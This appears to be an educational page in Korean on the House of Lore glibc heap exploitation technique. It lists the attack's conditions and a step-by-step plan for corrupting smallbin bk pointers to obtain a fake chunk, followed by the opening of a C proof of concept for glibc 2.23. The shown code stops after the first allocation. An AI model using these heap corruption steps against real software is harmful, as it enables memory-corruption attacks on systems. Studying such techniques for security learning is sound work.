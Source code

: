 # **House of lore**

## **Conditions**

* 할당받기 원하는 영역에 Fake Chunk 구조를 가지고 있어야 한다.
* 공격자에 의해 Small, Large Chunk 할당과 해제가 자유로워야 한다.
* 공격자에 의해 Freed Chunk의 bk 영역에 원하는 값을 저장할 수 있어야 한다.

## **Exploit Plan**

1. 공격 대상을 찾는다.
    * fake chunk 구조를 가지는 Memory 영역
    * fake chunk 구조를 저장할 수 있는 Memory 영여교
1. 다른 크기의 2개의 Heap 영역 할당
1. 첫 번째 chunk 해제
1. 해제된 첫 번째 chunk의 bk영역에 원하는 영역의 주소 값 저장
1. 두 번째 chunk보다 큰 chunk를 할당
    * 해제된 Small chunk를 Small bin에 등록하기 위함
1. 해제된 chunk와 동일한 크기의 heap을 2개 생성
    * 두 번째 할당된 heap의 영역은 fake chunk가 저장되었던 영역으로 할당된다.

## **Proof of Concept**

```c
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.
[ ... ]
else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;
       [ ... ]
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);
```